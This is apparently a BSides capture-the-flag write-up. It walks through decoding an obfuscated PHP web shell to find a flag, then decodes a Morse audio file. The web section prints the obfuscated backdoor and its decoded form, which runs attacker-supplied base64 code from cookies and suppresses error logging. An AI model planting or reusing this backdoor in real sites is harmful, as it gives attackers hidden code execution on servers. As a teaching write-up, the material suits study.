 # Web Challenge : 50 Point
- The Challenge is a [zip](https://github.com/X-Vector/CTF/blob/master/Bsides/c99.zip) file Which Contain a php code 
``` 
<?php
$kyo1="JGM9J2NvdW50JzskYT0kX0NPT0tecJRTtecpZihyZecXecNecldCgkYSeck9PSecdecmbCcgJiYgJGMecoJGEpPjMpe2luaec";
$kyo3="zectldmFsecKGecJhc2Uec2NF9kZWNvZGUocHJlZ19ecyZXecBsYWNlKGecFycmF5KCcvW15cdz1cc1ec0vJywnL1xeczLycpLCBhcnJ";
$gj = "bcoxacoxse64cox_coxdcoxecoxccoxode";
$kyo4="heecSgnJywnKycpLCBqb2luKGecFyeccmF5X3NsaWNlKCecRhLCRjKCRhKS0zKSkpKSeckec7ZWNobyAnPC8nLiRrLiecc+Jzt9";
$iuq = "str_replace";
$kyo2="V9zZecXQoJ2Vyeccm9yX2xvZycecsICcvecZGV2L251bGwnKTskecaecz0nYWd7aGlkZGVuecX2eclecuX3BocH0nO2VjecaG8gJzwnLeciRecrLic+J";
$gj = $iuq("cox", "", $gj);
eval($gj($iuq("ec", "", $kyo1.$kyo2.$kyo3.$kyo4)));
?>
``` 
- first the variable `$iuq` containe a php build in function which is used to replcae any this words `ec` in this variables `$kyo1,$kyo2,$kyo3,$kyo4` with nothing then when excute the code the output will be 

```
JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYSk9PSdmbCcgJiYgJGMoJGEpPjMpe2luaV9zZXQoJ2Vycm9yX2xvZycsICcvZGV2L251bGwnKTskaz0nYWd7aGlkZGVuX2luX3BocH0nO2VjaG8gJzwnLiRrLic+JztldmFsKGJhc2U2NF9kZWNvZGUocHJlZ19yZXBsYWNlKGFycmF5KCcvW15cdz1cc10vJywnL1xzLycpLCBhcnJheSgnJywnKycpLCBqb2luKGFycmF5X3NsaWNlKCRhLCRjKCRhKS0zKSkpKSk7ZWNobyAnPC8nLiRrLic+Jzt9
```
- decode it with base64 then the output will be 
```
$c='count';$a=$_COOKIE;if(reset($a)=='fl' && $c($a)>3){ini_set('error_log', '/dev/null');$k='ag{hidden_in_php}';echo '<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}
```
- you will see that variable `$a` is `fl` and variable `$k` is `ag{hidden_in_php}` so your flag is `flag{hidden_in_php}`


# Crypto Challenge : 50 Point 
- The Challenge is a [mp3](https://github.com/X-Vector/CTF/blob/master/Bsides/abusing.mp3) file Which This Sound Like Morse code 
- Go to this [website](https://morsecode.scphillips.com/labs/audio-decoder-adaptive/) then upload mp3 file and you get this result
![Morse code](https://raw.githubusercontent.com/X-Vector/CTF/master/Bsides/morse.png?token=Ac-MuIyfT9F5B5lwWFnKAdTu2I1GK86Nks5cOkg0wA%3D%3D)
- We Play in This Words `ETTE L A G I N M C O D E W E T R U S T` To Get This Result `FLAGINMCODEWETRUST` Then We Submit and we get is wrong Then we add `{}_` to words to be `FLAG{IN_MCODE_TRUST}` and Flag is Correct
